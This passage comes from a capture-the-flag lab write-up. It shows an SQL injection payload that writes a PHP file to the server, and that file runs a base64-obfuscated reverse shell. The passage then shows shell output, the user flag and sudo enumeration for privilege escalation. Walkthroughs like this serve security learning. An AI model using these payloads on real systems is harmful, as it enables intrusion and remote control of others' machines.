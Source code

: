 ```sh
# step 4
# payload to pass into burp
1%0a';select '<?php exec("echo WW1GemFDQXRZeUFuWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ME9DODBORFEwSURBK0pqRW4= | base64 -d | base64 -d | bash"); ?>' into outfile '/var/lib/mysql/revshell.php';--1
```
```sh
# step 5
# dont forget to URL encode it and base64 encode the rev shell
1%0a'%3bselect+'<%3fphp+exec("echo+WW1GemFDQXRZeUFuWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ME9DODBORFEwSURBK0pqRW4%3d+|+base64+-d+|+base64+-d+|+bash")%3b+%3f>'+into+outfile+'/var/lib/mysql/revshell.php'%3b--1
```
```sh
# our payload unencoded would look like this
# the base64 part is the reverse shell
1%0a'; '<?php exec("echo WW1GemFDQXRZeUFuWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ME9DODBORFEwSURBK0pqRW4= | base64 -d | base64 -d | bash"); ?>' into outfile '/var/lib/mysql/revshell.php';--1
```

We now have our reverse shell as `rektsu` on the machine, next step is to get the user flag.

```sh
(remote) rektsu@zipping:/var/www/html/shop$ id
uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)

(remote) rektsu@zipping:/var/www/html/shop$ cat ~/user.txt
712dfbfb07cf4871cf4e42e1bb42b1d7
```

# Privilege Escalation

First thing we are checking is if we can run binaries with `sudo` to escalate our privileges. It turns out that we can use the `stock` binary with `sudo`.

```sh
(remote) rektsu@zipping:/var/www/html/shop$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

If we try to run the program, it asks for a password. Running it with `sudo` doesn't change the outcome.

```sh
(remote) rektsu@zipping:/var/www/html/shop$ stock
Enter the password: admin
Invalid password, please try again.

(remote) rektsu@zipping:/var/www/html/shop$ sudo stock
Enter the password: admin
Invalid password, please try again.
```
